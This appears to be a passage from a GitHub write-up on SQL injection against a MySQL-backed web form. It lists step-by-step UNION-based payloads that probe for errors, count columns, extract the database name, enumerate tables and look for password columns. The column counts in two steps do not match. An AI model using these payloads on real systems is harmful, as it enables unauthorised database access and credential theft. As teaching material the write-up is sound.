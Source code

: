 ## 6. How the Attack is Performed
### Step 1: Identifying SQL Injection Point 
We start by testing a vulnerable login or search input with a simple payload (`'`) to check if the application is susceptible to SQL Injection. We can see it returns an error message with the type of SQL used(MySQL)
<img width="1280" height="597" alt="image" src="https://github.com/user-attachments/assets/de17504d-7cab-4bd6-b750-e14a39c3f9ae" />

## Step 2: Confirming Column Count  
We use the `ORDER BY` technique to determine the number of columns in the target table.

```sql
' ORDER BY 4 --
```
<img width="602" height="250" alt="image" src="https://github.com/user-attachments/assets/b6bfbf3d-39c4-4eef-8a24-40248cf8f7f6" />

## Step 3: Column  Extraction
We retrieve the total columns using the UNION SELECT method.
```
' UNION SELECT 1,2,3,4,5,6,7 -- -
```
<img width="602" height="249" alt="image" src="https://github.com/user-attachments/assets/34914245-fdd7-4c80-ae5a-0d3eee5ec63b" />

## Step 4: Database Name Extraction
We retrieve the current database name using the UNION SELECT method. 
``` sql
' UNION SELECT 1, 2, 3, 4, database(), 6, 7 --
```
<img width="602" height="281" alt="image" src="https://github.com/user-attachments/assets/3c1e0907-8988-49be-b51b-8cce79514d15" />

## Step 5: Listing Tables in the Database
We query the information_schema.tables to find all table names.
``` sql
' UNION SELECT 1,2,3,4,table_name,6,7 FROM information_schema.tables --
```
<img width="602" height="250" alt="image" src="https://github.com/user-attachments/assets/b4d92949-b5f0-4213-a288-46addac09430" />

## Step 6: Retrieving details Columns of containing passwords
Once we identify a list of tables, we try to find tables containing sensitive data like passwords.
``` sql
' UNION SELECT 1,2,3,4,table_name,6,7 FROM information_schema.columns where column_name="password" --
```
<img width="602" height="250" alt="image" src="https://github.com/user-attachments/assets/ddca7422-cfe6-4e75-9947-9cb76f8533b5" />
